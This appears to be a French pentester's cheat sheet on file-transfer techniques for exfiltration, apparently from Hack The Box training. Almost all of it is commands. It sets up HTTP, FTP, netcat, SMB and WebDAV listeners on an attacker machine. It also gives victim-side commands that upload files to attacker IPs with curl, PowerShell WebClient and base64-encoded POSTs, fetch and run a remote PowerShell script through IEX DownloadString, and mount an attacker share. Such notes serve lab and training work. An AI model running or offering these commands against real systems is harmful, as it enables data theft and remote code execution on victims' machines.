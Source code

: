 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Listener HTTP

```title=configuration du serveur 
pip3 install uploadserver
python3 -m uploadserver

#  Upload depuis linux
curl -X POST http://10.10.14.181/upload -F 'files=@16162020_backup.zip'

```

### PsUpload.ps1

```utilisation depuis powershell
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base 64

```
 $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## Listener FTP

```
sudo python3 -m pyftpdlib --port 21 --write
```

### Powershell

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Client ftp

On pourra également utiliser simplement le client `ftp`

## Listener NC

```
# lancement du listener
nc -lvnp 8000

# décodate de la payload reçue 
echo <base64> | base64 -d -w 0 > fichier
```

### Encodage Base 64 du fichier

```title=Linux
echo <base64> | base64 -d -w 0 > fichier
```

```title=Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## SMB

### SMB Classique

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
```

### WebDav

#### Listener WebDAV

```
# installation
sudo pip install wsgidav cheroot

# utilisation
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Connection au partage

```
# Si on veut accéder à la racine utiliser le partage spécial DavWWWRoot
dir \\192.168.49.128\DavWWWRoot 

# Sinon utilisation du nom du partage classique
dir \\192.168.49.128\partage
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\partage\


```
